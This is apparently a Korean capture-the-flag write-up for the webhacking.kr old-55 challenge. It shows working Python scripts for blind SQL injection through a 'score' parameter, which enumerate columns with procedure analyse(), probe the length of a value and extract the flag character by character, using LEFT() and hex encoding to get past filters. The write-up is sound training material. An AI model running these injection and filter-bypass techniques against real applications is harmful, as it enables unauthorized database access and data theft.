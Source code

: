 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-03-03-47-44.png)


# **Write-Up**

rank를 클릭하면 하단의 쿼리문이 나온다.

```php
mysqli_query($db,"insert into chall55 values('{$_SESSION['id']}','".trim($_POST['score'])."','{$flag}')");
```

score를 클릭하면 GET method로 score가 전달되고 id와 점수가 나온다.

![](images/2022-01-03-03-48-11.png)

old-53에서 배운 procedure analyse를 이용하여 DB 및 컬럼 명을 알아내자

```python
import requests
import bs4


CHALLENGE   = 'https://webhacking.kr/challenge/web-31/'
SESSID      = '8b14bokub2931b4mokil0oq896'
headers     = {'Cookie':'PHPSESSID='+SESSID}

for i in range(0, 5):
    score       = '2147483647 limit {},1 procedure analyse()'.format(i)
    url         = CHALLENGE + 'rank.php?score='+score
    req         = requests.get(url=url, headers=headers)
    soup        = bs4.BeautifulSoup(req.text, 'html.parser')
    print(soup.find_all('center')[0].text)

[Output]
id : webhacking.chall55.id // 
id : webhacking.chall55.score // 
id : webhacking.chall55.p4ssw0rd_1123581321 //
... 생략 ...
```

컬럼 명은 id, score, p4ssw0rd_1123581321로 3개가 있다.

select를 쓰면 no hack이라고 나온다.

![](images/2022-01-03-03-48-36.png)

p4ssw0rd_1123581321의 데이터 길이를 확인해 보자.

```python
import requests
import bs4

CHALLENGE   = 'https://webhacking.kr/challenge/web-31/'
SESSID      = '8b14bokub2931b4mokil0oq896'
headers     = {'Cookie':'PHPSESSID='+SESSID}

for i in range(64):
    score       = 'IF(LENGTH(p4ssw0rd_1123581321)={},1,2)'.format(i)
    url         = CHALLENGE + 'rank.php?score='+score
    req         = requests.get(url=url, headers=headers)
    soup        = bs4.BeautifulSoup(req.text, 'html.parser')
    if 'Piterpan' in soup.find_all('center')[0].text:
        print('flag length = {}'.format(i))
        break

[Output]
flag length = 31
```

substr 따옴표도 no hack이 떠서 필터링됨을 알 수 있다. left함수로 우회하자.

```python
import requests
import bs4
import string

CHALLENGE   = 'https://webhacking.kr/challenge/web-31/'
SESSID      = '8b14bokub2931b4mokil0oq896'
headers     = {'Cookie':'PHPSESSID='+SESSID}

flag        = ''
for i in range(32):
    for c in string.printable.strip():
        score       = 'IF(LEFT(p4ssw0rd_1123581321,{})=0x{},1,2)'.format(i, (flag + c).encode().hex())
        url         = CHALLENGE + 'rank.php?score='+score
        req         = requests.get(url=url, headers=headers)
        soup        = bs4.BeautifulSoup(req.text, 'html.parser')
        if 'Piterpan' in soup.find_all('center')[0].text:
            flag += c
            break
print('flag = {}'.format(flag))

[Output]
flag = flag{easy_peasy_lemon_squeezy!}
```

FLAG를 인증하여 점수를 획득하자.

![](images/2022-01-03-03-48-55.png)


# **FLAG**

**flag{easy_peasy_lemon_squeezy!}**